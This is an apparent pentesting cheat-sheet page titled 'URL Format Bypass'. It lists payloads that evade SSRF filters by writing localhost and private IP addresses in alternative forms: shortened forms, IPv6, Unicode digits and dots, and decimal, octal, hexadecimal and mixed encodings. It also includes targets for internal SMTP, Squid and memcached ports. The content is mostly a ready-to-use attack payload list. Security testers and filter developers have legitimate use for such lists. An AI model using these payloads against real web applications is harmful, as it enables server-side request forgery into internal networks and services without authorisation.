 # URL Format Bypass


### Localhost

```bash
# Localhost
0 # Yes, just 0 is localhost in Linuc
http://127.0.0.1:80
http://127.0.0.1:443
http://127.0.0.1:22
http://127.1:80
http://127.000000000000000.1
http://0
http:@0/ --> http://localhost/
http://0.0.0.0:80
http://localhost:80
http://[::]:80/
http://[::]:25/ SMTP
http://[::]:3128/ Squid
http://[0000::1]:80/
http://[0:0:0:0:0:ffff:127.0.0.1]/thefile
http://①②⑦.⓪.⓪.⓪

# CDIR bypass
http://127.127.127.127
http://127.0.1.3
http://127.0.0.0

# Dot bypass
127。0。0。1
127%E3%80%820%E3%80%820%E3%80%821

# Decimal bypass
http://2130706433/ = http://127.0.0.1
http://3232235521/ = http://192.168.0.1
http://3232235777/ = http://192.168.1.1

# Octal Bypass
http://0177.0000.0000.0001
http://00000177.00000000.00000000.00000001
http://017700000001

# Hexadecimal bypass
127.0.0.1 = 0x7f 00 00 01
http://0x7f000001/ = http://127.0.0.1
http://0xc0a80014/ = http://192.168.0.20
0x7f.0x00.0x00.0x01
0x0000007f.0x00000000.0x00000000.0x00000001

# Mixed encodings bypass
169.254.43518 -> Partial Decimal (Class B) format combines the third and fourth parts of the IP address into a decimal number
0xA9.254.0251.0376 -> hexadecimal, decimal and octal

# Add 0s bypass
127.000000000000.1

# You can also mix different encoding formats
# https://www.silisoftware.com/tools/ipconverter.php

# Malformed and rare
localhost:+11211aaa
```